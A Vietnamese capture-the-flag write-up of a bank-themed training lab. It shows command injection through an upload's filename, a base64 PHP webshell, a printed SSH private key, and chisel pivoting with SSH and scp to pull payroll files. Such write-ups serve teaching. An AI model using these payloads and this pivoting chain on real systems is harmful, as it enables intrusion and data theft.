

---
- Completed on 15/08/2023 | OS: Linux
- Tool used: `nmap`  `burp-suite` `php` `chisel` `ssh` `scp`
---
## Goal

Đích đến cuối cùng của lab này là khai thác lỗ hổng trang web này và đọc được bảng lương của nhân viên của Ngân hàng XBank, trong đó có `flag`

## Analysis


Đối tượng lần này thực hiện pentest là Ngân hàng Xbank, ở trang web này chỉ có chức năng nộp CV để tuyển nhân viên.




Nhìn sơ qua thì ở từng job cụ thể cho phép chúng ta nộp file CV để công ty check, chúng ta sẽ nộp một một file zip bình thường xem trang web trả về gì.


Trang web chỉ trả về file đã được upload thành công, xem xét qua thì chức năng upload của trang web này có thể dính một vài lỗ hổng như: `upload file` `command injection` `symlink file zip` …

Ở đây sau một lúc phân tích thì thấy rằng chức năng upload file zip sau đó file zip được unzip, rõ ràng rằng `filename` chắc chắn được xử lý, xem qua thì trang web này được code từ php. 


Vì response không trả về dữ liệu nào hết nên để biết chắc `filename` có dính phải lỗ hổng command injection hay không thì xem thêm một cmd `sleep 5` để xem response trả về `5s` hay không? 


Sau mỗi câu lệnh linux thì dâu `;` hoặc `|` sẽ phân cách các câu lệnh linux, ở đây chỉ cần debug là có thể inject được command. Như hình trên rõ ràng trang web đã dính lỗ hổng `command injection via upload file` 

##  Exploitation

Sau khi phân tích chúng ta đã xác định trang web hiện tại dính lỗ hổng `Command Injection` ở tham số `filename` . Bây giờ chúng ta sẽ thử tạo một file tên là hoa với câu lệnh `>hoa` . Nếu thành công thì chúng ta sẽ có một path `/hoa`


Vậy là xong! Bây giờ chúng ta sẽ tạo một webshell chứ code php để RCE server, vì để tiện và thao tác dễ dàng nên chúng ta sẽ sử dụng giao thức POST.
```php
<?php 
// Base64 encoded PHP shell
echo base64_decode('PD9waHAgc3lzdGVtKCRfUE9TVFswXSk7ID8+');
?>
```

Câu lệnh để tạo file shell lúc này sẽ là: `echo base64_decode('PD9waHAgc3lzdGVtKCRfUE9TVFswXSk7ID8+') > hoa.php`


Chúng ta cần chú ý rằng sau khi chỉnh lại webshell với phương thức `POST` thì tại ở tham số nên dùng số vì khi gọi nó ra thì nó sẽ không hiện `Use of undefined constant s - assumed 's' (this will throw an Error in a future version of PHP) in` . Và để thực hiện được `POST` với tham số cần sửa lại một chút ở HTTP Header ở phần `Content-Type` sử nó lại thành giá trị `Content-Type: application/x-www-form-urlencoded` , vì sao cần sửa `Content-Type` với giá trị trên:

> Content-Type: application/x-www-form-urlencoded là một trong những giá trị của tiêu đề HTTP Content-Type và được sử dụng để chỉ định rằng dữ liệu đang được gửi đi theo định dạng URL-encoded. Định dạng này yêu cầu dữ liệu được mã hóa dưới dạng chuỗi `key-value`, trong đó các giá trị được mã hóa và các khoảng trắng được thay thế bằng dấu "+" và các ký tự đặc biệt được mã hóa thành mã ASCII dạng "%xy". Định dạng này phổ biến khi gửi dữ liệu từ biểu mẫu HTML.
> 


### Discovery

Khi tới đây thì chúng ta cần thực hiện `discovery system` xem xét hệ thống có những thứ gì chúng ta có thể khai thác và kiếm thử xem có danh sách lương nhân viên hay không?


Ở đây chúng ta sẽ sử dụng `ifconfig` xem giao diện mạng của server, như hình thì thấy rằng server có hai giao diện mạng được kết nối là `eth0: 172.23.0.2` và `eth1: 172.16.0.4`


```bash
   ----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAx4AEW4WYqoYE5Bdmiqt201EyDlkHPDeR+HxhQ+7nRXOSzHwXf7ip
SouTY6V0uHfLl/wLi+ycdsQuHYmKvgSGzinfucPiqS8fzMsnqyo5tcnvNvDZkh3xcqtCEJ
Y37RU66So18bHD4sFo+h3oiYmBOLt9Gm52rNAYxlkZgeeFXqIwNpS2fJoDm6sTRivjrfVj
HuanL/D50OD8aG7Kwzyohlbdy8meEYeWGr7ZbQnMVoMCH12oMaGwQanYFb5/pXQvtZ9VCg
AhXa9YdepebNUvdDjjSzyCv16nspZsYt7Zcc1hv20u3emK5LlIneBgk8ofmgvckjqhaY/I
bL+OtC8gfhXFlWqV9iLMPVtM0BE2NRmDEWh8pC9FE5KIQ1izATGEZolNNq4emHULp2FRml
/pLlB3k9ks6jm9+bwiiLCahLqews6ySVQ7paEpt6EKT+pOV5WUJnK/kU5qCwwLvKXqPeNB
qdSQBXqXZh8bGkQsMNezdWAY3XD9CBvGC8poa/qjAAAFiC4Zn6kuGZ+pAAAAB3NzaC1yc2
EAAAGBAMeABFuFmKqGBOQXZoqrdtNRMg5ZBzw3kfh8YUPu50Vzksx8F3+4qUqLk2OldLh3
y5f8C4vsnHbELh2Jir4Ehs4p37nD4qkvH8zLJ6sqObXJ7zbw2ZId8XKrQhCWN+0VOukqNf
Gxw+LBaPod6ImJgTi7fRpudqzQGMZZGYHnhV6iMDaUtnyaA5urE0Yr4631Yx7mpy/w+dDg
/GhuysM8qIZW3cvJnhGHlhq+2W0JzFaDAh9dqDGhsEGp2BW+f6V0L7WfVQoAIV2vWHXqXm
zVL3Q440s8gr9ep7KWbGLe2XHNYb9tLt3piuS5SJ3gYJPKH5oL3JI6oWmPyGy/jrQvIH4V
xZVqlfYizD1bTNARNjUZgxFofKQvRROSiENYswExhGaJTTauHph1C6dhUZpf6S5Qd5PZLO
o5vfm8IoiwmoS6nsLOsklUO6WhKbehCk/qTleVlCZyv5FOagsMC7yl6j3jQanUkAV6l2Yf
GxpELDDXs3VgGN1w/QgbxgvKaGv6owAAAAMBAAEAAAGANRwwjMjhHqx1Ct/r7Yi+Jn2cLN
OoqHBGzPcX0cT9DrE46HU0sEzRzMWhpEp860sBCWIRFNwVv0x01moyZGnCFYpyQ/sREWc5
OQTwd5HTMUEkDOVLlqmgCJ3tBYtoMhaPy1jwaXqgonJI5yUlLdBMdXT8VhgIQfNYVR2NO9
cN22akHTOz7TH3Oe7uP6UZhMsp6yUOZyXo66GpsIemNRml57WicEkpapNE87PRIEUWgAV6
gC0nxKa9zI1RuGAxjTODs5uQ9jSf9p81pJ6YD3WT3W18YMh0MEOYlAVT7+xksWpeqhs3/z
ENBmYlLU3tqYDAqeGWmCp/qevnnKNacXQpQllgaWBWNrl7fLlWTlWuJKOh23DkgtNul70G
eiztZt18mt2/UGLCVnq5fcB7xOlXiEhtb5MGsWMmelXHy59y7GCgREbWKr3o3kXytFVKCz
Y45OmWTcyGOKKxel/iqJpinSHR8MNjc7O8O7GoZ+RiSia59icFwFoLkcJmeB5aimShAAAA
wB7uOPvfsSYn6QLmlw2tW6x3jI5Txwn3SuHeGcB57x/rpZQRE/vjfQ3snUQwqpYx5O9wLX
ZF8f0Jx18cyUQCLaM6mq3nJrTvGOzCTLmohq5RbazP/wF6XZQM/8d5Y8IhwNirThDpZ5Kw
dwzMamb2MCYDJ/qVp4cEQ9Qby1KK88dSIoiQPLq9KGBy8bdMqDX57pC4dZZWtroxNCaZvS
sCLJTInBnrhJY8J0M/+ldQcQiFaH735kD7c8U/GMfArfs7FQAAAMEA6WipRaLXv7hIhRso
4MByauRhgXsiJCnSQIg4h5oOf/7oXUcmF4OcHW8oleqgkG/62+MgVfBgcRK0VaQTzp4n8g
227VcTEylsP40CZuYHdf9iv62M50LPegEYktTcPsWK4VNM1gZim4pFXvNSeEFciyAuvi4V
c1R61bEq9/lR5J0m7JQ/6OVoGBQ4SMDC8TrEJvpGnzpmJo70upkclc3niXBIxdvy1YDk2f
MU9u2ibHZ/gou+kYgJlJT6fdfgdvOxAAAAwQDazyyC6gdSHiW0B8N+PCj4lUMHF02M2DwW
vyjgnpjiD70QIM8l53K9rR2PNtcLG6nVFt8LIlS+Y8n/jsPEB5O4pIxkqE02O7VipC2+nB
0emOiPjSDHgPVxfK98HJsWXiGSjucQjd6vpeofQfDKvWwVY6ToYmIKkSiXFxIDyvPCYhlY
FTrB61Uka8/QKIIsBBHH+yTOEF1zIJ8LFZWB1JpuTkYipkBSEpz40AIQx57QpWbDUYtUBv
Ga99FmwiT9zJMAAAAOcm9vdEBjdHI3OTg0OTEBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Ở đây chúng ta vừa lấy được một `OPENSSH Private Key` , lưu key về máy của chúng ta để xem có thể dùng key này đăng nhập nơi nào khác nữa không? Lúc này thì chưa biết!


Vì đây là key kết nối SSH nên thử xem server này còn chạy trên những `port` nào nữa bằng lệnh: `netstat -tuln`

- `t` hoặc `-tcp`: Hiển thị các kết nối TCP.
- `u` hoặc `-udp`: Hiển thị các kết nối UDP.
- `l` hoặc `-listening`: Chỉ hiển thị các cổng lắng nghe (listening ports).
- `n` hoặc `-numeric`: Hiển thị địa chỉ IP và số cổng dưới dạng số học, không giải quyết tên miền hoặc dịch vụ.


Chúng ta thấy rằng con server này chỉ chạy trên `port 80` mà không có `port 22`, từ đây có thể chắc rằng Key ở trên dùng login con server khác.

Như trên trong quá trình discovery thì thu thập được hai giao diện mạng, vì vậy cần thực hiện scan mạng nội bộ. Để scan mạng nội bộ có thể sử dụng `nmap` hoặc `Angry IP Scanner` , nhưng rõ ràn ở con server này không có hai cái này, không nên tải về nmap hoặc Angry IP vì sẽ để lại dấu vết khi bị Blue team truy vết.

Vì vậy chúng ta sẽ xử dung kỹ thuật `Pivoting` : 

- LÀ CÁC KỸ THUẬT GIÚP ATTACKER CÓ THỂ CHẠM ĐẾN NHỮNG VÙNG MẠNG KHÁC SÂU HƠN
- 💡DỰA TRÊN Ý TƯỞNG: LỢI DỤNG MÁY BỊ HACK NHƯ MỘT ĐIỂM CHUYỂN TIẾP (PIVOT POINT)


> 💡 Khi thực hiện pivoting, một máy tính hoặc mạng con được xem như là một điểm trung gian (pivot point) để gửi và nhận lưu lượng từ các máy tính khác trên mạng. Qua đó, attacker (người tấn công) có thể tiếp cận và kiểm soát các máy tính khác trên mạng mà không trực tiếp kết nối đến chúng.
> Pivoting thường được thực hiện bằng cách sử dụng các công cụ và kỹ thuật như relay, proxy, port forwarding hoặc tunneling. Những công cụ này cho phép attacker chuyển tiếp lưu lượng qua máy tính điểm trung gian mà không bị phát hiện hoặc bị chặn bởi các biện pháp bảo mật mạng.


Với kỹ thuật này chúng ta có thể sử dụng một framework là  https://github.com/jpillora/chisel [Lưu ý cần tải đúng bản phù hợp với kiến trúc của con server đó]

Chúng ta sẽ tải chisel ở hai nơi là máy của mình và con server trên sử dụng câu lệnh: 
`wget [https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz)`
Sau khi tải về cần giải nén: `gzip -d chisel`  


Chú ý rằng file `chisel` đang chỉ có quyền đọc và ghi file này đối với user, vì vậy chúng ta cần cấp quyền excute cho nó bằng cách: `chmod +x chisel` , lưu ý rằng ở burp suite dấu `+` sẽ tương đương với ký tự `space`nên cần urlencode nó trước: `Ctr+U`


Tool tunnel đã cài xong 2 máy, bây giờ sẽ thực hiện chạy nó server và client, đầu tiên chạy phía server: 

```bash
./chisel server -p 443 --socks5
```

- Đầu tiên chạy ở phía server chúng ta hack được sau đó chọn port 443 vì thấy rằng con server này có HTTPS hoặc là một port nào khác mà không trùng và chọn option giao thức để chạy là socks5.

Khi này server đã setup xong, bây giờ chạy ở phía local mà trước hết cần biết địa chỉ ip trang web xbank dùng `nslookup`


Chúng ta có `ip: 178.128.19.56` và nhập câu lệnh sau nên dùng thêm flag `-v`(verbose) để hiện rõ các kết nối:

```bash
./chisel client -v 178.128.19.56:443 socks
```


Cần chú ý một xíu nữa cần sửa file config proxychains4, vì như ảnh trên thì tool chisel sẽ forward vào địa chỉ `127.0.0.1` với port `1080` với method `sock5` , lưu ý file phải role root mới sửa được.


> 💡 Tệp cấu hình `proxychains4.conf` là tệp cấu hình cho ứng dụng ProxyChains version 4. ProxyChains là một công cụ proxy forwarding (chuyển tiếp proxy) được sử dụng để định tuyến các yêu cầu mạng thông qua proxy.


Bây giờ chúng ta sẽ thử truy cập qua ip nội bộ của con server kia xem đã tunnel connection thành công hay chưa:

- Sử dụng lệnh `proxychains cmd`  [Giải thích phía dưới]


>💡 ProxyChains là một công cụ proxy trong môi trường Linux. Nó cho phép bạn chuyển hướng lưu lượng mạng của các ứng dụng qua một hoặc nhiều proxy. Khi sử dụng ProxyChains, các ứng dụng của bạn sẽ không trực tiếp kết nối với máy chủ đích mà thay vào đó sẽ truyền qua các máy chủ proxy trung gian.
> ProxyChains hoạt động bằng cách cấu hình một danh sách các proxy trung gian trong tệp cấu hình của nó. Khi một ứng dụng gửi yêu cầu mạng, ProxyChains sẽ chuyển tiếp yêu cầu đến proxy đầu tiên trong danh sách. Proxy này sẽ chuyển tiếp yêu cầu đến proxy tiếp theo trong danh sách và tiếp tục cho đến khi đạt được máy chủ đích. Quá trình này giúp ẩn danh địa chỉ IP thực sự của bạn và tăng tính bảo mật khi truy cập vào các dịch vụ trực tuyến.


Chúng ta đã trafic thành công, bây giờ đã setup thành công và chúng ta sẽ chỉnh trên trình duyệt thêm tunnel mới có ip và port giống với proxychains để nó có thể forward tới trên extension FoxyProxy và bật nó lên cho nó đi qua tunnel.


Thành công truy cập ip nội bộ trên trình duyệt, lúc này có thể xem máy chúng ta coi như máy chúng ta là một phần của mạng nội bộ công ty đó. Bây giờ chúng ta tiếp tục discovery bằng cách nmap ip nội bộ: `proxychains nmap 172.16.0.4/24 -vvv -p 80`

- Ở đây chúng ta scan nmap qua proxychains với prefix-length là 24 vì netmask 255.255.255.0, chỉ scan mỗi port 80.

```bash
└─$ proxychains nmap 172.16.0.4/24 -vvv -p 80
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 06:01 PDT
Initiating Ping Scan at 06:01
Scanning 256 hosts [2 ports/host]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.1:80 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.4:80  ...  OK
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.5:80  ...  OK
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.6:80 <--socket error or timeout!
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.9:80 <--socket error or timeout!
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.10:80 <--socket error or timeout!
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Ping Scan Timing: About 1.76% done; ETC: 06:34 (0:32:36 remaining)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.13:80 <--socket error or timeout!
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.14:80 <--socket error or timeout!
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.17:80 <--socket error or timeout!
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.18:80 <--socket error or timeout!
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.21:80 <--socket error or timeout!
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.22:80 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.0.25:80 <--socket error or timeout!
```

Xem rằng ở đây có một IP nội bộ là: `172.16.0.5` hoạt động, lúc này chúng ta sẽ truy cập vào ip này trên trình duyệt xem nó là gì.


Đây là một trang đăng tin của nhân viên và admin trong mạng nội bộ, có một bài viết của admin về một domain: [`http://files.cbjs-bank.cyberjutsu-lab.tech/`](http://files.cbjs-bank.cyberjutsu-lab.tech/) và admin bảo rằng thông tin đăng nhập mặc định cho máy chủ này giống với thông tin đăng nhập của blog này.


Bây giờ chúng ta có hai server mới `172.16.0.5` và [`http://files.cbjs-bank.cyberjutsu-lab.tech/`](http://files.cbjs-bank.cyberjutsu-lab.tech/) tương ứng với địa chỉ IP là: `128.199.157.202` . Nhưng sau khi dùng nmap scan thì không có địa chỉ ip nào mở port 22 vậy chỉ còn lại IP: `128.199.157.202` , nhớ cấp quyền cho key: `chmod 600 devops_key`

```bash
──(shang㉿shang)-[~/Desktop/Cyber]
└─$ chmod 600 devops_key 
                                                                                                                                                                          
┌──(shang㉿shang)-[~/Desktop/Cyber]
└─$ ssh -i devops_key devops@128.199.157.202                        
Linux 16af87874c22 4.15.0-197-generic #208-Ubuntu SMP Tue Nov 1 17:23:37 UTC 2022 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Aug 16 10:42:12 2023 from 178.128.27.63
devops@16af87874c22:~$ id
uid=1000(devops) gid=1000(devops) groups=1000(devops)
```

Đã truy cập thành công máy chủ khác bây giờ lại tiếp tục discovery xem server này có gì không? Vì web trên cũng được build từ php chúng ta sẽ xem thử `document root` có gì không nhé.


Ở đây chúng ta đã thấy được một vài file quan trọng trong đó có file bảng lương của nhân viên. Chúng ta sẽ tải hết file ở đây về local bằng `scp` (Secure Copy) câu lệnh sẽ như sau:

```bash
scp -r -i devops_key user@remote_host:/path/to/destination .
```

Trong đó:

- `-r`: Tùy chọn này cho phép scp sao chép thư mục và nội dung bên trong.
- `devops_key`: Tệp khóa riêng tư để xác thực qua SSH.
- `.` : đại diện cho thư mục hiện tại trên máy local, nghĩa là thư mục đích trên máy local sẽ trùng với thư mục nguồn trên máy từ xa.
- `user@remote_host:/path/to/destination`: Thông tin đăng nhập và đường dẫn đến thư mục đích trên máy từ xa.


Chúng ta đọc được bảng thanh toán lương, có thể chuyển file ra win để đọc thay vì đọc ở linux. Vậy công việc của chúng ta đã hoàn thành, mục tiêu lấy bảng lương thành công.

**Flag: CBJS{c6e03477479e4f5b35767775e78c925a} [Flag ở trong mã giao dịch]**

## Conclusion

Chúng ta đã hoàn thành mục tiêu đề ra, qua bài lab này giúp chúng ta cải thiện kỹ năng và tư duy của chúng ta hơn. Cảm ơn mọi người đã đọc writeup!